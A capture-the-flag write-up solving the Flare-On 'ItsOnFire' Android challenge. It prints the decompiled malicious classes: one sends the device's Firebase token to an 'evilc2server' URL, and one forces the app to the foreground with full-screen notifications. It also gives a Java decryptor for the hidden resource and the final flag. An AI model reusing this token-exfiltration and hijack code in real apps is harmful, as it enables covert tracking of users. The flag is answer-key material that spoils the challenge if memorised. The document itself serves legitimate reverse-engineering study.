








# Challenge #2 - ItsOnFire

### Description

The FLARE team is now enthusiastic about Google products and services but we suspect there is more to this Android game than meets the eye.

### Solution

In this case i tried to run the APK in my emulator with SDK version 33.&#x20;

<figure><figcaption></figcaption></figure>

From image above, we can see that the APK is a game like space war. Decompiling the APK we will see some class inside com.secure.itsonfire package&#x20;

&#x20;

<figure><figcaption></figcaption></figure>

Most of the class related to the game, but there is suspicious class named PostByWeb



```java
package com.secure.itsonfire;

import android.util.Log;
import androidx.appcompat.R;
import androidx.compose.runtime.internal.StabilityInferred;
import java.io.IOException;
import java.net.HttpURLConnection;
import java.net.MalformedURLException;
import java.net.URL;
import java.net.URLConnection;
import kotlin.Metadata;
import kotlin.jvm.internal.Intrinsics;
import org.jetbrains.annotations.Nullable;

@StabilityInferred(parameters = 0)
@Metadata(d1 = {"\u0000\u001e\n\u0002\u0018\u0002\n\u0002\u0018\u0002\n\u0000\n\u0002\u0010\u000e\n\u0002\b\u0002\n\u0002\u0018\u0002\n\u0000\n\u0002\u0010\u0002\n\u0000\b\u0017\u0018\u00002\u00020\u0001B\u000f\u0012\b\u0010\u0002\u001a\u0004\u0018\u00010\u0003¢\u0006\u0002\u0010\u0004J\b\u0010\u0007\u001a\u00020\bH\u0002R\u0010\u0010\u0005\u001a\u0004\u0018\u00010\u0006X\u0082\u000e¢\u0006\u0002\n\u0000¨\u0006\t"}, d2 = {"Lcom/secure/itsonfire/PostByWeb;", "Ljava/lang/Thread;", "str", "", "(Ljava/lang/String;)V", "mUrl", "Ljava/net/URL;", "request", "", "app_release"}, k = 1, mv = {1, 6, 0}, xi = R.styleable.AppCompatTheme_checkboxStyle)
/* loaded from: classes.dex */
public class PostByWeb extends Thread {
    public static final int $stable = 8;
    @Nullable
    private URL mUrl;

    public PostByWeb(@Nullable String str) {
        try {
            this.mUrl = new URL(str);
        } catch (MalformedURLException e2) {
            e2.printStackTrace();
        }
        request();
    }

    private final void request() {
        try {
            URL url = this.mUrl;
            Intrinsics.checkNotNull(url);
            URLConnection openConnection = url.openConnection();
            if (openConnection == null) {
                throw new NullPointerException("null cannot be cast to non-null type java.net.HttpURLConnection");
            }
            HttpURLConnection httpURLConnection = (HttpURLConnection) openConnection;
            httpURLConnection.setConnectTimeout(9000);
            httpURLConnection.setDoInput(true);
            httpURLConnection.setRequestMethod("GET");
            httpURLConnection.connect();
            if (httpURLConnection.getResponseCode() != 200) {
                Log.e(MalwareInvadersActivity.class.getName(), Intrinsics.stringPlus("[-] Send Resp Code = ", Integer.valueOf(httpURLConnection.getResponseCode())));
            }
        } catch (IOException e2) {
            e2.printStackTrace();
        }
    }
}
```



PostByWeb function send a request to HTTP server and when we trace the call of PostByWeb function we will see the class that called it which is MessageWorker

<figure><figcaption></figcaption></figure>

```java
package com.secure.itsonfire;

import android.app.ActivityManager;
import android.app.NotificationChannel;
import android.app.NotificationManager;
import android.content.ComponentName;
import android.util.Log;
import androidx.appcompat.R;
import androidx.appcompat.widget.ActivityChooserModel;
import androidx.compose.runtime.internal.StabilityInferred;
import androidx.core.app.NotificationCompat;
import com.google.firebase.messaging.FirebaseMessagingService;
import com.google.firebase.messaging.RemoteMessage;
import f.a;
import f.c;
import java.util.List;
import java.util.concurrent.ExecutorService;
import java.util.concurrent.Executors;
import kotlin.Metadata;
import kotlin.jvm.internal.Intrinsics;
import org.jetbrains.annotations.NotNull;

@StabilityInferred(parameters = 0)
@Metadata(d1 = {"\u0000 \n\u0002\u0018\u0002\n\u0002\u0018\u0002\n\u0002\b\u0002\n\u0002\u0010\u0002\n\u0000\n\u0002\u0018\u0002\n\u0002\b\u0002\n\u0002\u0010\u000e\n\u0000\b\u0007\u0018\u00002\u00020\u0001B\u0005¢\u0006\u0002\u0010\u0002J\u0010\u0010\u0003\u001a\u00020\u00042\u0006\u0010\u0005\u001a\u00020\u0006H\u0016J\u0010\u0010\u0007\u001a\u00020\u00042\u0006\u0010\b\u001a\u00020\tH\u0016¨\u0006\n"}, d2 = {"Lcom/secure/itsonfire/MessageWorker;", "Lcom/google/firebase/messaging/FirebaseMessagingService;", "()V", "onMessageReceived", "", "remoteMessage", "Lcom/google/firebase/messaging/RemoteMessage;", "onNewToken", FirebaseMessagingService.EXTRA_TOKEN, "", "app_release"}, k = 1, mv = {1, 6, 0}, xi = R.styleable.AppCompatTheme_checkboxStyle)
/* loaded from: classes.dex */
public final class MessageWorker extends FirebaseMessagingService {

    /* renamed from: j  reason: collision with root package name */
    public static final int f352j = 0;

    @Override // com.google.firebase.messaging.FirebaseMessagingService
    public void onMessageReceived(@NotNull RemoteMessage remoteMessage) {
        Intrinsics.checkNotNullParameter(remoteMessage, "remoteMessage");
        super.onMessageReceived(remoteMessage);
        Object systemService = getSystemService(ActivityChooserModel.ATTRIBUTE_ACTIVITY);
        if (systemService == null) {
            throw new NullPointerException("null cannot be cast to non-null type android.app.ActivityManager");
        }
        ActivityManager activityManager = (ActivityManager) systemService;
        List<ActivityManager.RunningTaskInfo> runningTasks = activityManager.getRunningTasks(100);
        Intrinsics.checkNotNullExpressionValue(runningTasks, "runningTasks");
        if (!runningTasks.isEmpty()) {
            int size = runningTasks.size();
            int i2 = 0;
            while (i2 < size) {
                int i3 = i2 + 1;
                ActivityManager.RunningTaskInfo runningTaskInfo = runningTasks.get(i2);
                ComponentName componentName = runningTaskInfo.topActivity;
                Intrinsics.checkNotNull(componentName);
                if (Intrinsics.areEqual(componentName.getPackageName(), a.f356b)) {
                    activityManager.moveTaskToFront(runningTaskInfo.taskId, 0);
                }
                i2 = i3;
            }
        }
        String str = remoteMessage.getData().get(getString(R.string.key));
        if (str != null) {
            NotificationManager notificationManager = (NotificationManager) getSystemService("notification");
            NotificationChannel notificationChannel = new NotificationChannel(getString(R.string.oc), getString(R.string.mc), 4);
            notificationChannel.setDescription(getString(R.string.nc));
            Intrinsics.checkNotNull(notificationManager);
            notificationManager.createNotificationChannel(notificationChannel);
            NotificationCompat.Builder builder = new NotificationCompat.Builder(this, getString(R.string.oc));
            builder.setSmallIcon(17301595);
            builder.setContentTitle(getString(R.string.title));
            builder.setWhen(System.currentTimeMillis());
            builder.setContentText(getString(R.string.bd));
            builder.setAutoCancel(true);
            builder.setFullScreenIntent(c.f362a.a(this, str), true);
            startForeground(2102, builder.build());
        }
    }

    @Override // com.google.firebase.messaging.FirebaseMessagingService
    public void onNewToken(@NotNull String token) {
        Intrinsics.checkNotNullParameter(token, "token");
        Log.i("FCM Token Created", token);
        ExecutorService newSingleThreadExecutor = Executors.newSingleThreadExecutor();
        String str = getString(R.string.c2) + token;
        Intrinsics.checkNotNullExpressionValue(str, "StringBuilder().apply(builderAction).toString()");
        newSingleThreadExecutor.submit(new PostByWeb(str));
    }
}
```

As we can see that PostByWeb parameter is String str = getString(R.string.c2) + token; . So next step is looking at R.string.c2 value on strings.xml

<figure><figcaption></figcaption></figure>

Most of the code are obfuscated but the string name on strings.xml are not. Searching for  any suspicious string name on strings.xml i found below suspicious string

* R.string.alg = AES/CBC/PKCS5Padding
* R.string.key = my\_custom\_key
* R.string.iv = abcdefghijklmnop

Based on the string name, it looks like data requirement to implement encryption using AES CBC on java. Find the function that use those string i got below class

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

* R.string.alg -> f/b.java
* R.string.key -> com/secure/itsonfire/MessageWorker.java
* R.string.iv -> f/b.java



```java
package f;

import android.content.Context;
import android.content.Intent;
import android.content.res.Resources;
import android.net.Uri;
import androidx.compose.runtime.internal.StabilityInferred;
import androidx.core.content.FileProvider;
import com.google.android.gms.common.GoogleApiAvailabilityLight;
import com.secure.itsonfire.R;
import java.io.File;
import java.io.IOException;
import java.io.InputStream;
import java.nio.charset.Charset;
import java.util.zip.CRC32;
import javax.crypto.Cipher;
import javax.crypto.spec.IvParameterSpec;
import javax.crypto.spec.SecretKeySpec;
import kotlin.Metadata;
import kotlin.io.FilesKt__FileReadWriteKt;
import kotlin.jvm.internal.Intrinsics;
import kotlin.ranges.IntRange;
import kotlin.text.Charsets;
import kotlin.text.StringsKt___StringsKt;
import org.jetbrains.annotations.NotNull;

@StabilityInferred(parameters = 0)
@Metadata(bv = {}, d1 = {"\u0000L\n\u0002\u0018\u0002\n\u0002\u0010\u0000\n\u0002\u0010\u000e\n\u0000\n\u0002\u0010\u0012\n\u0000\n\u0002\u0018\u0002\n\u0000\n\u0002\u0018\u0002\n\u0002\b\u0003\n\u0002\u0010\t\n\u0000\n\u0002\u0018\u0002\n\u0002\b\u0002\n\u0002\u0010\b\n\u0000\n\u0002\u0018\u0002\n\u0000\n\u0002\u0018\u0002\n\u0002\b\u0002\n\u0002\u0018\u0002\n\u0002\b\u0004\bÇ\u0002\u0018\u00002\u00020\u0001B\t\b\u0002¢\u0006\u0004\b\u001a\u0010\u001bJ*\u0010\n\u001a\u00020\u00042\u0006\u0010\u0003\u001a\u00020\u00022\b\u0010\u0005\u001a\u0004\u0018\u00010\u00042\u0006\u0010\u0007\u001a\u00020\u00062\u0006\u0010\t\u001a\u00020\bH\u0002J\u0010\u0010\r\u001a\u00020\f2\u0006\u0010\u000b\u001a\u00020\u0004H\u0002J\u0010\u0010\u0010\u001a\u00020\u00022\u0006\u0010\u000f\u001a\u00020\u000eH\u0002J\u0018\u0010\u0014\u001a\u00020\u00132\u0006\u0010\u0012\u001a\u00020\u00112\u0006\u0010\u000f\u001a\u00020\u000eH\u0002J\u001a\u0010\u0017\u001a\u0004\u0018\u00010\u00042\u0006\u0010\u0016\u001a\u00020\u00152\u0006\u0010\u0012\u001a\u00020\u0011H\u0002J\u0016\u0010\u0019\u001a\u00020\u00182\u0006\u0010\u000f\u001a\u00020\u000e2\u0006\u0010\u0012\u001a\u00020\u0011¨\u0006\u001c"}, d2 = {"Lf/b;", "", "", "algorithm", "", "input", "Ljavax/crypto/spec/SecretKeySpec;", "key", "Ljavax/crypto/spec/IvParameterSpec;", "iv", "b", "value", "", "a", "Landroid/content/Context;", "context", GoogleApiAvailabilityLight.TRACKING_SOURCE_DIALOG, "", "resourceId", "Ljava/io/File;", "c", "Landroid/content/res/Resources;", "res", "e", "Landroid/content/Intent;", "f", "<init>", "()V", "app_release"}, k = 1, mv = {1, 6, 0})
/* loaded from: classes.dex */
public final class b {
    @NotNull

    /* renamed from: a  reason: collision with root package name */
    public static final b f360a = new b();

    /* renamed from: b  reason: collision with root package name */
    public static final int f361b = 0;

    private b() {
    }

    private final long a(byte[] bArr) {
        CRC32 crc32 = new CRC32();
        crc32.update(bArr);
        return crc32.getValue();
    }

    private final byte[] b(String str, byte[] bArr, SecretKeySpec secretKeySpec, IvParameterSpec ivParameterSpec) {
        Cipher cipher = Cipher.getInstance(str);
        cipher.init(2, secretKeySpec, ivParameterSpec);
        byte[] doFinal = cipher.doFinal(bArr);
        Intrinsics.checkNotNullExpressionValue(doFinal, "cipher.doFinal(input)");
        return doFinal;
    }

    private final File c(int i2, Context context) {
        Resources resources = context.getResources();
        Intrinsics.checkNotNullExpressionValue(resources, "context.resources");
        byte[] e2 = e(resources, i2);
        String d2 = d(context);
        Charset charset = Charsets.UTF_8;
        byte[] bytes = d2.getBytes(charset);
        Intrinsics.checkNotNullExpressionValue(bytes, "this as java.lang.String).getBytes(charset)");
        SecretKeySpec secretKeySpec = new SecretKeySpec(bytes, context.getString(R.string.ag));
        String string = context.getString(R.string.alg);
        Intrinsics.checkNotNullExpressionValue(string, "context.getString(R.string.alg)");
        String string2 = context.getString(R.string.iv);
        Intrinsics.checkNotNullExpressionValue(string2, "context.getString(\n     …             R.string.iv)");
        byte[] bytes2 = string2.getBytes(charset);
        Intrinsics.checkNotNullExpressionValue(bytes2, "this as java.lang.String).getBytes(charset)");
        byte[] b2 = b(string, e2, secretKeySpec, new IvParameterSpec(bytes2));
        File file = new File(   context.getCacheDir(), context.getString(R.string.playerdata));
        FilesKt__FileReadWriteKt.writeBytes(file, b2);
        return file;
    }

    private final String d(Context context) {
        String slice;
        String string = context.getString(R.string.c2);
        Intrinsics.checkNotNullExpressionValue(string, "context.getString(R.string.c2)");
        String string2 = context.getString(R.string.w1);
        Intrinsics.checkNotNullExpressionValue(string2, "context.getString(R.string.w1)");
        StringBuilder sb = new StringBuilder();
        sb.append(string.subSequence(4, 10));
        sb.append(string2.subSequence(2, 5));
        String sb2 = sb.toString();
        Intrinsics.checkNotNullExpressionValue(sb2, "StringBuilder().apply(builderAction).toString()");
        byte[] bytes = sb2.getBytes(Charsets.UTF_8);
        Intrinsics.checkNotNullExpressionValue(bytes, "this as java.lang.String).getBytes(charset)");
        long a2 = a(bytes);
        StringBuilder sb3 = new StringBuilder();
        sb3.append(a2);
        sb3.append(a2);
        String sb4 = sb3.toString();
        Intrinsics.checkNotNullExpressionValue(sb4, "StringBuilder().apply(builderAction).toString()");
        slice = StringsKt___StringsKt.slice(sb4, new IntRange(0, 15));
        return slice;
    }

    /* JADX WARN: Multi-variable type inference failed */
    /* JADX WARN: Type inference failed for: r2v0, types: [android.content.res.Resources] */
    /* JADX WARN: Type inference failed for: r2v2 */
    /* JADX WARN: Type inference failed for: r2v4, types: [java.lang.Object, java.io.InputStream] */
    /* JADX WARN: Type inference failed for: r2v6 */
    /* JADX WARN: Type inference failed for: r2v8, types: [java.lang.Throwable, java.io.IOException] */
    private final byte[] e(Resources e2, int i2) {
        Throwable th;
        InputStream inputStream;
        try {
            try {
                inputStream = e2.openRawResource(i2);
            } catch (IOException e3) {
                e = e3;
                inputStream = null;
            } catch (Throwable th2) {
                e2 = 0;
                th = th2;
                try {
                    Intrinsics.checkNotNull(e2);
                    e2.close();
                } catch (IOException e4) {
                    e4.printStackTrace();
                }
                throw th;
            }
            try {
                byte[] bArr = new byte[inputStream.available()];
                inputStream.read(bArr);
                try {
                    Intrinsics.checkNotNull(inputStream);
                    inputStream.close();
                } catch (IOException e5) {
                    e5.printStackTrace();
                }
                return bArr;
            } catch (IOException e6) {
                e = e6;
                e.printStackTrace();
                try {
                    Intrinsics.checkNotNull(inputStream);
                    inputStream.close();
                    return null;
                } catch (IOException e7) {
                    e2 = e7;
                    e2.printStackTrace();
                    return null;
                }
            }
        } catch (Throwable th3) {
            th = th3;
            Intrinsics.checkNotNull(e2);
            e2.close();
            throw th;
        }
    }

    @NotNull
    public final Intent f(@NotNull Context context, int i2) {
        Intrinsics.checkNotNullParameter(context, "context");
        Uri uriForFile = FileProvider.getUriForFile(context, Intrinsics.stringPlus(context.getApplicationContext().getPackageName(), context.getString(R.string.prdr)), c(i2, context));
        Intent intent = new Intent(context.getString(R.string.aias));
        intent.addFlags(32768);
        intent.addFlags(268435456);
        intent.addFlags(1);
        intent.setType(context.getString(R.string.mime));
        intent.putExtra(context.getString(R.string.es), uriForFile);
        return intent;
    }
}

```



Take a look on f/b.java, it looks like function that decrypt resource available on APK. Below is the flow

* function f.b.c&#x20;
  * f.b.e -> open resource
  * f.b.d -> get string value
  * f.b.b -> do AES CBC decryption &#x20;
  * Write decrypted data to file

In this case, without doing dynamic analysis we can get all values needed to do decryption including the encrypted files.

* Algorithm = R.string.alg
* Key = d(context)
  * Processed value from R.string.c2 and R.string.w1&#x20;
* IV = R.string.iv
* Encrypted files

  * it call [openRawResource](https://developer.android.com/guide/topics/resources/providing-resources) , so the location of raw file located in res/raw
  *

  <figure><figcaption></figcaption></figure>

So, the final step is rewriting the decrypt function in Java then decrypt the raw resource.&#x20;

```java
import java.io.File;
import java.io.IOException;
import java.io.InputStream;
import java.nio.charset.Charset;
import java.util.zip.CRC32;
import javax.crypto.Cipher;
import javax.crypto.spec.IvParameterSpec;
import javax.crypto.spec.SecretKeySpec;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.nio.file.Files;
import java.nio.file.Path;
import java.nio.file.Paths;

class Coba{

	public static long a(byte[] bArr) {
        CRC32 crc32 = new CRC32();
        crc32.update(bArr);
        return crc32.getValue();
    }

    private static void writeBytesToFile(String fileOutput, byte[] bytes)
        throws IOException {

        try (FileOutputStream fos = new FileOutputStream(fileOutput)) {
            fos.write(bytes);
        }

    }

	public static void main(String[] args) {
		try{
			Cipher cipher = Cipher.getInstance("AES/CBC/PKCS5Padding");
        	String slice;
        	String string = "https://flare-on.com/evilc2server/report_token/report_token.php?token=";
        	String string2 = "wednesday";
        	StringBuilder sb = new StringBuilder();
        	sb.append(string.subSequence(4, 10));
        	sb.append(string2.subSequence(2, 5));
        	String sb2 = sb.toString();
        	byte[] bytes = sb2.getBytes(Charset.forName("UTF-8"));
        	long a2 = a(bytes);
        	StringBuilder sb3 = new StringBuilder();
        	sb3.append(a2);
        	sb3.append(a2);
        	String sb4 = sb3.toString();
        	slice = sb4.substring(0,16);
        	byte[] bytes2 = slice.getBytes(Charset.forName("UTF-8"));
        	SecretKeySpec secretKeySpec = new SecretKeySpec(bytes2, "AES");
			String stringIv = "abcdefghijklmnop";
			byte[] bytes3 = stringIv.getBytes(Charset.forName("UTF-8"));
        	IvParameterSpec iv = new IvParameterSpec(bytes3);
        	cipher.init(2, secretKeySpec, iv);
        	InputStream input = new FileInputStream("iv.png");
        	byte[] bArr = new byte[input.available()];
            input.read(bArr);
            byte[] doFinal = cipher.doFinal(bArr);
            writeBytesToFile("test.png", doFinal);
		}
		catch(Exception e){
			System.out.println(e);
		}
	}
}
```

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

Flag : <Y0Ur3_0N_F1r3_K33P_601N6@flare-on.com>
